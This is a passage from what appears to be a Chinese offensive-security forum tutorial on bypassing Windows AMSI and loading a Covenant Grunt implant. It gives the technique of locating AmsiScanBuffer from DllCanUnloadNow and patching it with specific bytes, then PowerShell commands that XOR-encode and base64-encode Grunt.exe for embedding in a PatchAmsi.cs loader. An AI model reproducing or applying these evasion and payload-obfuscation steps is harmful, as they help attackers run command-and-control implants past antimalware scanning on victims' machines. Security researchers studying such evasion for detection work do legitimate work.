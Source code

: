 注：第一:代码中不能直接出现`AmsiScanBuffer`的字符串，否则会被amsi识别，所以替换成`DllCanUnloadNow`

用egg hunt的方式，以`DllCanUnloadNow`的函数地址为基址寻找AmsiScanBuffer函数的地址，再patch

第二:因为微软的更新，使得对`.net  Assembly.load`的程序集扫描结果必须返回一个有效值，所以替换为`0xb8,0x57,0x00,0x07,0x80`后再加上`return  0xC3`

编译一下

![image-20211119232115873](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-800276385dd87de41b69f1d2868e22cefeacb5ab.png)

执行一下

![image-20211119232136876](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-9a0e4b8c82e2cdc78017fb23bc2ba5522119b95c.png)

上WinDbg调试看看是否成功 Bypass Amsi

File-Attach

![image-20211119232218285](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-cf080b0bcc2424f4ce8ecfc09bf4143fb6617077.png)

定位到amsi 查看Patch是否成功

两者结合
----

以Grunt.exe作为例子

1.把exe读取到一个数组中

```php
[byte[]]$rawbytes = [System.IO.File]::ReadAllBytes("C:\Users\12550\Desktop\知识\项目学习\GadgetToJScript\GadgetToJScript-1.0\GadgetToJScript\bin\x64\Release\Grunt.exe")
```

2.查看exe的字符串大小

```php
$rawbytes.length
```

![image-20211119230129292](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-d46d0f734a722ff2d6f102a81db2b25998285e41.png)

3.简单异或0x77

```php
for ($i = 0; $i -lt $rawbytes.Length; $i++){$rawbytes[$i] = $rawbytes[$i] -bxor 0x77}
```

![image-20211119230229026](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-4119fc2e775eee699a83c9c3daccf836669506c2.png)

4.base64编码一哈 并复制到剪切板

```php
[System.Convert]::ToBase64String($rawbytes) | clip
```

![image-20211119230303563](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-b977a43e7e3ae49c582db3281f2bfdef320c2e6c.png)

放到PatchAmsi.cs文件中
